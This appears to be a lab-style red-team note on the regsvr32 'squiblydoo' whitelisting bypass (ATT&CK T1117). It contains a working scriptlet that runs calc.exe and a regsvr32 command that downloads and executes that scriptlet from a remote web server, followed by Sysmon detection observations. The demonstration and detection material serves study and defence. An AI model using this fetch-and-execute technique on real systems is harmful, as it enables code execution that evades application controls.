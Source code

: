 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We need to host the back.sct somehwere on a web server and then we can then execute the above code from the command prompt:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, an evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline parameters will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1117\",\"type\":\"link\",\"title\":\"Regsvr32 - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

